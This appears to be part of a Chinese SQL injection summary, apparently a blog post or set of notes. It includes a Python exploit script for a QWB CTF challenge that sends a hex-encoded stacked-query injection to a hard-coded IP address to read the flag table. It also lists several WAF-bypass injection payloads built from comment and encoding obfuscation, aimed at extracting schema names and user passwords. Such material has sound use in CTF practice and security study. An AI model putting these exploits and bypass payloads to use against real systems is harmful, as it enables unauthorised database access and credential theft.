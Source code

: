 > 这个选项是PHP 5.5.21、 PHP 5.6.5后引入的，也就说是，只要PHP是这两个版本以后的，就可以手工禁用掉多句执行了。如图：![](/images/19-6-9_SQL_SQL注入总结_堆叠注入的历史1.png)

强网杯的exp.py
```py
import requests
import binascii
s = 'insert into words values (1,(select group_concat(`flag`) from `1919810931114514` limit 0,1))'
# s = 'insert into 1919810931114514 values ("123456")'
# s = 'insert into words values (1,2)'
str_16 = binascii.b2a_hex(s.encode('utf-8'))
inject = str_16.decode()
print(f"http://49.4.15.125:31896/?inject=1';sEt @x=0x{inject};prEpare a from @x;execute a;")
s = requests.get(f"http://49.4.15.125:31896/?inject=1';sEt @x=0x{inject};prEpare a from @x;execute a;")
print(s.text)
```

# 宽字节注入：
- https://www.freebuf.com/column/165567.html

# 过狗方面

给点语句吧
```sql
id=3'/*!and*/ 2e1/**/=2e1--+
id=2e1'/*!and*/ 2e1/**/=2e1union(/*.1112*//**//*!*/(select@1/**/,2,database/**/(),4,5))--+
id=2e1'/*!and*/ 2e1/**/=2e1union(/*.1112*//**//*!*/(select@1/**/,2,group_concat(table_name),4,5 from information_schema.tables where table_schema=0x74657374))--+
id=1 and{`version`length((select/*!50000schema_name*/from/*!50000information_schema.schemata*/limit 0,1))>0}
id=-11/*!union/*!select/*!1,(select/*!password/*!from/*!test.user limit 0,1),3*/
id=-11 union--+%0aselect 1,(select--+%0apassword from --%01%0atest.user limit 0,1),3
id=@a:=(select@b:=`username`from{a test.user}limit0,1)union--%0aselect'1',@a,3
id=-1/*!union--%01%0aselect1,password,3 from test.user*/
```